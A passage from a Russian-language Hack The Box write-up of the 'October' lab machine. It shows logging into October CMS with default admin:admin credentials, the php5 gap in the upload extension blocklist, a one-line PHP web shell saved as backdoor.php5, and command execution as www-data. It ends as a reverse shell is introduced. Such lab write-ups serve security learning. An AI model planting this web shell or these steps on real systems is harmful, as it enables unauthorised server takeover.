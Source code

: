 [![browser-backend.png]({{ "/img/htb/boxes/october/browser-backend.png" | relative_url }})]({{ "/img/htb/boxes/october/browser-backend.png" | relative_url }})
{: .center-image}

Оказавшись в админке, недолго думая, я попробовал стандартные `admin:admin`.

[![browser-admin-upload.png]({{ "/img/htb/boxes/october/browser-admin-upload.png" | relative_url }})]({{ "/img/htb/boxes/october/browser-admin-upload.png" | relative_url }})
{: .center-image}

И вот уже я внутри панели управления.

Вопросив searchsploit о существующих [уязвимостях](https://www.exploit-db.com/exploits/41936) October CMS, я нашел способ загрузки веб-шелла — виной был неполный черный список расширений потенциально уязвимых файлов, в котором отсутствовало упоминание об `php5`.

```
==================== source start ========================
106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
====================  source end  ========================
```

Также на это намекал уже существующий php5-скрипт в библиотеке. Поэтому я нажал Upload и загрузил самый банальный бэкдор, который смог придумать.

```
root@kali:~# echo '<?php system($_REQUEST["cmd"]); ?>' > backdoor.php5
```

[![browser-admin-backdoor.png]({{ "/img/htb/boxes/october/browser-admin-backdoor.png" | relative_url }})]({{ "/img/htb/boxes/october/browser-admin-backdoor.png" | relative_url }})
{: .center-image}

Теперь я могу инициировать выполнение команд от имени `www-data`, обратившись к загруженному файлу с аргументом `cmd`.

[![browser-admin-rce.png]({{ "/img/htb/boxes/october/browser-admin-rce.png" | relative_url }})]({{ "/img/htb/boxes/october/browser-admin-rce.png" | relative_url }})
{: .center-image}

## Реверс-шелл

Раз у меня есть RCE, ничто не помешает мне получить шелл. Сделаю я это из Burp Suite для наглядности, прописав в качестве пейлоада [реверс-шелл](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) на Bash по TCP (мой IP — `10.10.14.15`, порт — `31337`).


[//]: # (2019-10-08)